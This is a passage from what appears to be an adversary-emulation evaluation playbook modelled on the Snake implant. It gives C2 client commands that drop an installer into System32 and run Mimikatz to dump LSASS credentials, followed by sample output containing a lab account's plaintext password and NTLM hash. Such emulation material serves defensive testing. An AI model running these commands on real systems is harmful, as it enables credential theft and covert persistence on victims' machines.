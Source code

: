 * Wait 1 minute and then run the following command to download the snake installer:

```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 4, "file": "installer_v3.exe", "dest":"C:\\Windows\\System32\\cmu_svc.exe"}'
```

* Wait 1 minute and then instruct Snake to run Mimikatz to dump all NTLM hashes from `LSASS.exe`:

```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 3, "proc": "C:\\Windows\\System32\\loadperf.exe", "args": "\"pr::d\" \"slsa::lop\" \"quit\""}'
```

* :heavy_exclamation_mark: Verify that the password `Producer2!` and NTLM hash
`f3fcd61f987a97da49ce5f650b4e6539` for `ZilvinasAdmin` appears at least once in
the output.

```bash
grep '* Username : ZilvinasAdmin' logs.txt -C 5 -i
```

* This should return:
  * > ```
    >     * Username : ZilvinasAdmin
    >     * Domain   : NK
    >     * NTLM     : f3fcd61f987a97da49ce5f650b4e6539
    >     * SHA1     : fc8c801521140666c793108b67716caf4c4189f4
    >     * DPAPI    : b06d7bea8849897b811e1d73ab22726c
    >     tsPkG :	
    > --
    >     * Username : ZilvinasAdmin
    >     * Domain   : NK
    >     * Password : Producer2!
    >     kErberoS :	
    >     * Username : ZilvinasAdmin
    >     * Domain   : NK.LOCAL
    >     * Password : (null)
    >     sSp :	
    >     crEdMan :
    > ```

### :moyai: Source Code

* [Snake Usermodule DLL](../../Resources/Snake/UserModule/README.md)
  * [Payload download](../../Resources/Snake/UserModule/src/comms_http.cpp#L604)
  * [Generic process execution](../../Resources/Snake/UserModule/src/execute.cpp#L406)
* [Mimikatz](../../Resources/Mimikatz)

### :microscope: Cited Intelligence

* TBD

## Step 17 - Lateral Movement to Admin Workstation and Persistence
